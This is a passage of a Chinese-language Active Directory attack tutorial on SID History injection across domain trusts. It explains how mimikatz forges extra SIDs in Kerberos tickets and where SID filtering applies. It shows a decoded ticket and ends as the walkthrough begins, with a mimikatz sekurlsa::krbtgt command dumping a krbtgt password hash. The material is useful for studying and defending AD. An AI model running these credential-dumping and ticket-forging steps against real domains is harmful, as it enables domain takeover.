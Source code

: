 



### Trustpocalypse – SID 增加森林内信托 AKA. SID History 攻击

相信很多人都知道SID History攻击，在mimikatz实现这个攻击之前，更多的人们都是去修改AD数据库等繁琐操作，mimikatz的作者 [Benjamin Delpy](https://twitter.com/gentilkiwi) 拯救了个世界，下面是一些该攻击的原理和利用方式







mimikatz通过设置票据 [KERB_VALIDATION_INFO](https://msdn.microsoft.com/en-us/library/cc237948.aspx) 结构的`extraDs`部分（该结构定义了[DC提供的用户的登录和授权信息](https://msdn.microsoft.com/en-us/library/cc237948.aspx)）来实现这一点。 `extraSids`部分被描述为“[指向Kerb_sid_and_Attributes结构列表的指针，该结构包含与域中的域中的域中的组的SID列表](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/69e86ccc-85e3-41b9-b514-7d969cd0ed73?redirectedfrom=MSDN)”（这里定义了Kerb_sid_and_Attributes结构）

他在数据包中看起来像这样

```
Username: Superuser
Domain SID: S-1-5-21-3286968501-24975625-1618430583
UserId: 500
PrimaryGroupId 513
Member of groups:
  ->   513 (attributes: 7)
  ->   512 (attributes: 7)
  ->   520 (attributes: 7)
  ->   518 (attributes: 7)
  ->   519 (attributes: 7)
LogonServer:  
LogonDomainName:  FOREST-A

Extra SIDS:
  ->   S-1-5-21-3286968501-24975625-1618430583-1604
  ->   S-1-18-1
Extra domain groups found! Domain SID:
S-1-5-21-2897307217-3322366030-3810619207
Relative groups:
  ->   1107 (attributes: 536870919)
```



[这篇文章](https://adsecurity.org/?p=1588)与[许多文章](https://zer1t0.gitlab.io/posts/attacking_ad/#sid-history-attack)都讲述了SID History攻击的实现和SID History的作用，这里不再赘述



**之前我对域信任和域架构有一定的误解，SID在子域攻击同林根域时并不会被SID Filter过滤，但是攻击其他林（林信任/外部信任）的目标时，将会启用上述的SID Filter**。使用了被过滤的SID则会攻击失败，但是我们可以使用**RID高于1000的目标**进行SID攻击



SID History注入命令

```powershell
PS C:\> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # sekurlsa::krbtgt

Current krbtgt: 5 credentials
         * rc4_hmac_nt       : 1bf960a6af7703f75b1a2b04787c85fb
```